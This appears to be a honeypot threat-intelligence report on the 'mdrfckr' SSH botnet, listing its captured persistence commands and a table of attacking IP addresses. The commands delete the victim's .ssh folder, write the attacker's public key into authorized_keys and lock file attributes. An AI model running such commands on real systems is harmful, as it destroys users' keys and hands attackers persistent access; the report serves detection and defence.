 # Honeypot IoC Report 1 - 'mdrfckr' Botnet 
The adversary attempts to expand their botnet by:
1. Attempting to log into SSH servers with the `root` user and weak passwords
2. Removing the `.ssh` folder in the home directory
3. Create a new `.ssh` folder and add their own SSH key
4. Set permissions of `.ssh` folder

**Command IoCs:**

```bash
cd ~ &&
rm -rf .ssh &&
mkdir .ssh &&
echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys &&
chmod -R go= ~/.ssh &&
cd ~
```

```bash
cd ~; chattr -ia .ssh; lockr -ia .ssh
```

**IP IoCs:**

|IP Address     |Country        |City                   |Region                             |ISP                                                     |Org                                                     |
|---------------|---------------|-----------------------|-----------------------------------|--------------------------------------------------------|--------------------------------------------------------|
|182.229.12.141 |South Korea    |Seongnam-si            |Gyeonggi-do                        |LG POWERCOMM                                            |LG POWERCOMM                                            |
|111.235.212.247|Taiwan         |New Taipei City        |New Taipei City                    |Taiwan Intelligent Fiber Optic Network Co., Ltd.        |TAIFO                                                   |
|187.190.58.228 |Mexico         |Mazatlán               |Sinaloa                            |Total Play Telecomunicaciones SA De CV                  |Total Play Telecomunicaciones SA De CV                  |
|119.75.106.18  |South Korea    |Jeonju                 |Jeollabuk-do                       |SK Broadband Co Ltd                                     |TBROAD Jeonju                                           |
|201.149.49.146 |Mexico         |Monterrey              |Nuevo León                         |Megacable Comunicaciones de Mexico, S.A. de C.V.        |Megacable Comunicaciones de Mexico, S.A. de C.V         |
|176.109.0.30   |Russia         |Grozny                 |Chechnya                           |FGUP-ELEKTROSVYAZ                                       |Federal State Unitary Enterprise ELEKTROSVYAZ           |
|45.119.81.249  |Vietnam        |Quận Một               |Ho Chi Minh                        |Long Van System Solution                                |Unknown                                                 |
|192.210.135.20 |United States  |Buffalo                |New York                           |ColoCrossing                                            |New Wave NetConnect, LLC                                |
|103.152.18.138 |Bangladesh     |Rangpur City           |Rangpur Division                   |Deshnet Broadband                                       |Deshnet Broadband                                       |
|103.186.1.80   |Indonesia      |Sukabumi               |West Java                          |PT Cloud Hosting Indonesia                              |CV Ansa Project                                         |
|167.86.81.130  |Germany        |Nuremberg              |Bavaria                            |Contabo GmbH                                            |Contabo GmbH                                            |
|176.196.236.146|Russia         |Kemerovo               |Kemerovo Oblast                    |Goodline.info                                           |Unknown                                                 |
|143.110.253.119|India          |Bengaluru              |Karnataka                          |DigitalOcean, LLC                                       |DigitalOcean, LLC                                       |
|51.195.103.245 |Germany        |Limburg an der Lahn    |Hesse                              |OVH SAS                                                 |OVH GmbH                                                |
|103.140.72.172 |India          |Kalyān                 |Maharashtra                        |Citylink Broadbnad Services Pvt. Ltd                    |Citylink Broadbnad Services Pvt Ltd                     |
|189.112.0.11   |Brazil         |São Paulo              |São Paulo                          |ALGAR TELECOM S/A                                       |ALGAR TELECOM S/A                                       |
|91.239.19.66   |Russia         |Ulyanovsk              |Ulyanovsk Oblast                   |Telecom.ru Ltd                                          |Telecom.ru Ltd                                          |
|143.110.238.119|United States  |Santa Clara            |California                         |DigitalOcean, LLC                                       |DigitalOcean, LLC                                       |
|42.123.115.126 |China          |Beijing                |Beijing                            |Cloud Computing Corporation                             |Cloud Computing Branch Corporation                      |
|191.98.191.214 |Peru           |Lima                   |Lima Province                      |Optical Technologies S.A.C.                             |Ministerio De Trabajo Y Promocion Del Empleo            |